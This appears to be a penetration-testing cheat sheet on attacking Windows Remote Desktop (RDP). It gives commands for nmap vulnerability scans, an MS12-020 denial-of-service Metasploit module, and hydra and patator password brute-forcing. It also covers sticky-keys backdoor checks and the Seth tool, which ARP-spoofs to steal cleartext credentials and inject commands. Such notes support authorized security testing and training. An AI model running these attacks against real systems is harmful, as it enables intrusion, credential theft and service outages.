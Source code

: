 # RDP

### remote connect

{% hint style="info" %}
#### remember when you access an active RDP session the current user will be kicked off
{% endhint %}

remote desktop connection from linux

```
rdesktop -u [user] [domain or ip]
xfreerdp /u:"[user]" /v:[ip]:[port]
```

### nmap

```
nmap -Pn -n 127.0.0.1 --script rdp-enum-encryption
nmap -Pn -n 127.0.0.1 --script rdp-ntlm-info
nmap -Pn -n 127.0.0.1 --script rdp-vuln-ms12-020
```

### metasploit modules

```
use auxiliary/scanner/rdp/ms12_020_check
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

### rdp-sec-check

checks which encryption algorithms and authentication methods are used, as well as some other security settings. At the end of the check, rdp-sec-check summarizes the potential security issues of the Remote Desktop Service.

```
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl
chmod +x rdp-sec-check.pl
./rdp-sec-check.pl --help
```

### brute force

```
patator rdp_login host=192.168.0.101 user=FILE0 password=FILE1 0=user.txt 1=passwords.txt
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
```

### Man-in-the-middle attack on RDP

Responder is a comprehensive tool for performing a man-in-the-middle attack against Windows authentication methods. Among other rogue servers , the program has an RDP server.

#### for more info refer to [windows authentication hacking](https://miloserdov.org/?p=4055)

### Sticky-keys & Utilman

sticky-keys-hunter is a script for testing RDP hosts on sticky keys and utilman backdoor.

```
sticky-keys-hunter TARGET_IP
```

## RDP MitM

{% embed url="https://github.com/SySS-Research/Seth" %}

Seth is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials. It was developed to raise awareness and educate about the importance of properly configured RDP connections in the context of pentests, workshops or talks. The author is Adrian Vollmer (SySS GmbH).

```
git clone https://github.com/SySS-Research/Seth.git
cd Seth 
pip install -r requirements.txt

./seth.sh <INTERFACE> <ATTACKER IP> <VICTIM IP> <GATEWAY IP|HOST IP> [<COMMAND>] 
```

{% hint style="info" %}
Note: The last IP address must be that of the gateway, this can only change if the victim’s computer shares a subnet with the RDP host.
{% endhint %}

The last parameter is optional. It can contain a command that is executed on the RDP host by simulating WIN+R via key press event injection. Keystroke injection depends on which keyboard layout the victim is using - currently it's only reliable with the English US layout. I suggest avoiding special characters by using `powershell -enc <STRING>`, where STRING is your UTF-16le and Base64 encoded command. However, `calc` should be pretty universal and gets the job done.

\
The shell script performs ARP spoofing to gain a Man-in-the-Middle position and redirects the traffic such that it runs through an RDP proxy. The proxy can be called separately. This can be useful if you want use Seth in combination with Responder. Use Responder to gain a Man-in-the-Middle position and run Seth at the same time. Run seth.py -h for more information.

